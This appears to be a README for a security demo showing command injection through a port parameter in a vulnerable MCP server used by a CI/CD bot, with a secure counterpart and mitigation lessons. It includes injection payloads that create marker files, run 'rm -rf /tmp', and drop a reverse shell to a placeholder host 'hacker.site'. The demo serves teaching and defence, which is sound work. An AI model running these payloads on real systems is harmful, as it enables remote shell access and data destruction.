 # 🚀 MCP Injection Demo: CI/CD Bot Exploitation

**"Automated CI/CD Bot + MCP Server: From Real-World Productivity to Real-World Exploits"**

## 🎯 Demo Scenario

Our CI/CD bot uses an MCP server to automate port/process checks before deployments. This is a common pattern in modern DevOps pipelines and LLM ops assistants.

**Normal Operation:**
- CI/CD bot checks if a dev server/container can start on required ports
- If not, it alerts the team or tries to resolve automatically
- Uses MCP server's `/which-app-on-port` API

**The Vulnerability:**
- Insecure parameter handling = catastrophic breach!
- One unchecked input can lead to total system compromise

## 🏗️ Project Structure

```
mcp-injection-demo/
├── server/
│   ├── mcp_vulnerable.js      # Vulnerable MCP server
│   ├── mcp_secure.js          # Secure MCP server
│   ├── agent_client.js        # CI/CD bot simulator
│   └── common/
│       ├── logger.js          # Centralized logging
│       ├── validation.js      # Input validation helpers
│       └── shell.js           # Shell command wrappers
├── exploits/
│   ├── type_coercion.md       # Type coercion attacks (main + additional)
│   ├── chain_exploit.md       # Chained command attacks (main + additional)
│   └── backdoor_attack.md     # Persistent backdoor attacks (main + additional)
├── showcase/
│   ├── attack_walkthrough.md  # Step-by-step attack demo
│   └── defense_walkthrough.md # Security demonstration
├── tests/
│   ├── test_vulnerable.js     # Attack tests
│   ├── test_secure.js         # Security tests
│   └── malicious_payloads.js  # Payload collection
└── docs/
    ├── why_command_injection_matters.md
    └── mitigation_strategies.md
```

## 🚨 Attack Types Demonstrated

### 1. **Type Coercion Attack**
- **Payload:** `8080; touch /tmp/evil; #`
- **Effect:** Appends new command, leaves system marker
- **Demo:** `npm run attack:type-coercion`

### 2. **Chain Exploitation**
- **Payload:** `8080; echo '123; rm -rf /tmp/demo; #' #`
- **Effect:** First command's output pipes to second, triggering chained destructive actions
- **Demo:** `npm run attack:chain`

### 3. **Backdoor Attack**
- **Payload:** Creates persistent shell backdoor
- **Effect:** Full remote shell access
- **Demo:** `npm run attack:backdoor`

## 🧪 How to Run the Demo

### 1. Setup
```bash
npm install
cp .env.example .env
```

### 2. Start Vulnerable MCP Server
```bash
npm run start:vulnerable
```

### 3. Simulate CI/CD Bot Attacks

**Normal Operation:**
```bash
node server/agent_client.js --port=8080
```

**Type Coercion Attack:**
```bash
node server/agent_client.js --port="8080; touch /tmp/owned; #"
```

**Chain Attack:**
```bash
node server/agent_client.js --port="8080; echo '123; rm -rf /tmp; #' #"
```

**Backdoor Attack:**
```bash
node server/agent_client.js --port="8080; echo '#!/bin/bash' > /tmp/b.sh && echo 'bash -i >& /dev/tcp/hacker.site/4444 0>&1' >> /tmp/b.sh && chmod +x /tmp/b.sh && /tmp/b.sh &"
```

### 4. Observe System Changes
- Check `/tmp/owned`, `/tmp/b.sh` - side effects prove exploit worked!
- Review logs in `showcase/` folder

### 5. Switch to Secure Server
```bash
npm run start:secure
```
Run exact same payloads - they fail (are rejected) and are logged.

## 📊 Demo Presentation Flow

1. **Normal Case:** Show CI/CD bot working correctly
2. **Type Coercion:** Demonstrate command appending
3. **Chain Attack:** Show stage-two exploitation
4. **Backdoor:** Real persistent payload
5. **Secure Version:** Rerun attacks on secure server
6. **Comparison:** Show how easy it is to block with proper validation

## 🔒 Security Lessons

- **Input Validation:** Always validate beyond type system
- **Command Execution:** Use `execFile()` with argument arrays
- **Least Privilege:** Run services with minimal permissions
- **Monitoring:** Log and alert on suspicious patterns
- **Defense in Depth:** Multiple layers of protection

## 📁 Key Files

- `server/mcp_vulnerable.js` - Shows the vulnerable pattern
- `server/mcp_secure.js` - Shows the secure pattern
- `exploits/` - Contains all attack payloads (main exploits for presentation + additional for reference)
- `showcase/` - Step-by-step walkthroughs
- `tests/` - Automated attack and defense tests

## 🎯 What It help us see

- Real-world CI/CD bot leveraging real automation
- Attackers can pwn the system if one parameter is unchecked
- Clear code/validation notes showing how to block attacks
- Complete before/after demonstration with logs and system changes

---

**⚠️ WARNING: This is a security demo. Only run in isolated environments!** 
